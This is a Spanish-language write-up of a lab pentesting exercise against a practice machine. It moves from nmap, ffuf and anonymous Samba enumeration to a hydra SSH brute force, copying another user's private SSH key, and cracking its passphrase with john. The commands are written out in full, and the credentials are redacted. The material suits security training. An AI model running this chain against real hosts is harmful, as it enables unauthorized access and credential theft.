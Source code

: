 # Basic Pentesting — Writeup

**Objetivo:** Máquina de laboratorio (IP: `$IP`) — Fecha: 2025-09-26
**Alcance:** Pruebas autorizadas sobre la máquina de laboratorio. No publicar credenciales ni claves privadas.

---

## TL;DR

Se identificaron servicios HTTP, SSH y Samba. Se encontró un share anónimo con `staff.txt` que sugiere el usuario `jan`. Se obtuvo acceso SSH a `jan` por fuerza bruta (wordlist `rockyou`), desde `jan` se recuperó la clave privada de `kay` y se crackeó su passphrase con `john`, permitiendo acceso final como `kay`.

---

## Entorno y herramientas

* Kali Linux (o similar)
* nmap 7.95
* ffuf
* smbclient
* hydra
* john / ssh2john
* Wordlists: `/usr/share/wordlists/rockyou.txt`, `directory-list-2.3-small.txt`

Evidencia completa y salidas largas se almacenan en la carpeta `evidence/` (archivos con credenciales o claves están **REDACTED** y no se suben públicamente).

---

## Enumeración (nmap)

**Comando**

```bash
nmap -sV --open $IP
```

**Comentario:** `-sV` detecta versiones de servicios. 

**Resultado**
```bash
# Nmap 7.95 scan initiated Fri Sep 26 19:54:46 2025 as: /usr/lib/nmap/nmap --privileged -sV --open $IP
Nmap scan report for $IP
Host is up (0.35s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 26 19:55:04 2025 -- 1 IP address (1 host up) scanned in 18.58 seconds
```
**Resumen**

* 22/tcp open  ssh (OpenSSH 8.2p1)
* 80/tcp open  http (Apache/2.4.41)
* 139/445/tcp open Samba (smbd)

---

## Enumeración de directorios web (ffuf)

**Comando**

```bash
ffuf -u http://$IP/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 300 -s -c
```

**Comentario:** `-t 300` define la cantidad de hilos; `-s` silencia headers extra; `-c` activa color en resultado.

**Resultado**
```bash
# Priority-ordered case-sensitive list, where entries were found
#
# Suite 300, San Francisco, California, 94105, USA.
# Copyright 2007 James Fisher
# or send a letter to Creative Commons, 171 Second Street,
# license, visit http://creativecommons.org/licenses/by-sa/3.0/
#

# directory-list-2.3-small.txt
#
# Attribution-Share Alike 3.0 License. To view a copy of this
#
# This work is licensed under the Creative Commons
# on at least 3 different hosts
development
```
**Resultado relevante**

* `/development`

---

## Smb — share anónimo

**Enumeración**

```bash
smbclient -L //$IP
```

**Resultado**
```bash
	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk      
	IPC$            IPC       IPC Service (Samba Server 4.15.13-Ubuntu)
Reconnecting with SMB1 for workgroup listing.
Protocol negotiation to server $IP (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```
**Resultado relevante**
* Share accesible: `Anonymous (Disk)`

**Conexión y archivo**

```bash
smbclient //$IP/Anonymous
smb: \> ls
smb: \> get staff.txt
```
<details>
  <summary><i>staff.txt</i></summary>
  
```bash
  Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

</details>

**Comentario:** Indicio de usuario `jan`. Revisar si el share expone archivos sensibles o rutas del filesystem.

---

## Fuerza bruta SSH (usuario: jan)

**Comando**

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt -t 4 ssh://$IP
```

**Comentario:** `-l` especifica login; `-P` wordlist; `-t 4` tareas paralelas. Usar siempre con autorización.

**Resultado (REDACTED en repo público)**

* Credenciales válidas obtenidas para `jan`.

---

## Acceso inicial y obtención de clave

**Operaciones realizadas**

```bash
ssh jan@$IP
# desde la sesión de jan:
scp jan@$IP:/home/kay/.ssh/id_rsa ./
```

**Comentario:** La clave privada `id_rsa` estaba accesible desde la cuenta `jan` — investigar permisos del fichero y si el share/sistema expuso la ruta. No se sube la clave al repo.

---

## Cracking de passphrase y acceso final

**Conversión y cracking**

```bash
ssh2john id_rsa > rsa_john.txt
john rsa_john.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Resultado (REDACTED)**

* Passphrase crackeada.

**Uso**

```bash
ssh -i id_rsa kay@$IP
# introducir passphrase para la clave
cat pass.bak
```
